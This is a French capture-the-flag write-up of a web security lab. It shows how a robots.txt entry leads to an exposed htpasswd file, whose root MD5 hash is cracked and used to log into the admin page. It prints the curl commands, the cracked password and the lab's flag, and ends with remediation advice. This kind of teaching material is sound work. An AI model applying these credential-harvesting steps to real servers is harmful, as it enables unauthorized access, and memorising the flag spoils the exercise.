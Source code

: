 
---

# ROBOTS_WHATEVER

## Description de la faille

Une vulnérabilité a été découverte dans l'application web, permettant d'accéder à un fichier `.htpasswd` non sécurisé. En utilisant les informations de ce fichier, il est possible de se connecter à l'interface d'administration et d'obtenir un flag.

## Étapes pour découvrir la faille

1. **Observation des cookies** :
   - Utilisez `curl` pour envoyer une requête à l'application web :
     ```sh
     curl -I http://ip-addr/
     ```
   - Réponse :
     ```
     HTTP/1.1 200 OK
     Server: nginx/1.4.6 (Ubuntu)
     Date: Thu, 01 Aug 2024 11:34:23 GMT
     Content-Type: text/html
     Connection: keep-alive
     X-Powered-By: PHP/5.5.9-1ubuntu4.29
     Set-Cookie: I_am_admin=68934a3e9455fa72420237eb05902327; expires=Thu, 01-Aug-2024 12:34:23 GMT; Max-Age=3600
     ```

2. **Exploration du fichier `robots.txt`** :
   - Utilisez `curl` pour vérifier les directives du fichier `robots.txt` :
     ```sh
     curl http://ip-addr/robots.txt
     ```
   - Réponse :
     ```
     User-agent: *
     Disallow: /whatever
     Disallow: /.hidden
     ```

3. **Exploration du répertoire `/whatever`** :
   - Accédez au répertoire `/whatever` pour voir son contenu :
     ```sh
     curl http://ip-addr/whatever/
     ```
   - Réponse :
     ```html
     <html>
     <head><title>Index of /whatever/</title></head>
     <body bgcolor="white">
     <h1>Index of /whatever</h1><hr><pre><a href="../">../</a>
     <a href="htpasswd">htpasswd</a>                                           29-Jun-2021 18:09                  38
     </pre><hr></body>
     </html>
     ```

4. **Accès au fichier `.htpasswd`** :
   - Téléchargez le fichier `.htpasswd` pour récupérer les informations d'authentification :
     ```sh
     curl http://ip-addr/whatever/htpasswd
     ```
   - Réponse :
     ```
     root:437394baff5aa33daa618be47b75cb49
     ```

5. **Déchiffrement du mot de passe** :
   - Passez le hash MD5 `437394baff5aa33daa618be47b75cb49` dans un outil de décryptage MD5 pour obtenir le mot de passe :
     ```
     437394baff5aa33daa618be47b75cb49 = qwerty123@
     ```

6. **Accès à l'interface d'administration** :
   - Utilisez les informations d'authentification pour accéder à l'URL d'administration :
     ```sh
     http://ip-addr/admin
     ```
   - Connexion :
     ```
     Nom d'utilisateur : root
     Mot de passe : qwerty123@
     ```

7. **Obtention du flag** :
   - Une fois connecté à l'interface d'administration, le flag suivant est révélé :
     ```
     d19b4823e0d5600ceed56d5e896ef328d7a2b9e7ac7e80f4fcdb9b10bcb3e7ff
     ```

## Flag

```
d19b4823e0d5600ceed56d5e896ef328d7a2b9e7ac7e80f4fcdb9b10bcb3e7ff
```

## Recommandations pour corriger la faille

Pour corriger cette faille, voici quelques recommandations :

1. **Protéger les fichiers sensibles** : Assurez-vous que les fichiers comme `.htpasswd` ne sont pas accessibles publiquement.
2. **Configurer correctement les permissions du serveur** : Restreignez l'accès aux répertoires sensibles en utilisant des configurations de serveur appropriées.
3. **Utiliser des mots de passe sécurisés et non déchiffrables** : Utilisez des algorithmes de hachage sécurisés et des mots de passe complexes.
4. **Renforcer la sécurité de l'interface d'administration** : Implémentez des mesures de sécurité supplémentaires telles que l'authentification multifactorielle (MFA).

## Conclusion

Cette faille montre l'importance de sécuriser les fichiers et répertoires sensibles, ainsi que d'utiliser des mots de passe robustes et des configurations de serveur appropriées. En suivant les recommandations ci-dessus, la sécurité de l'application peut être significativement améliorée.

---
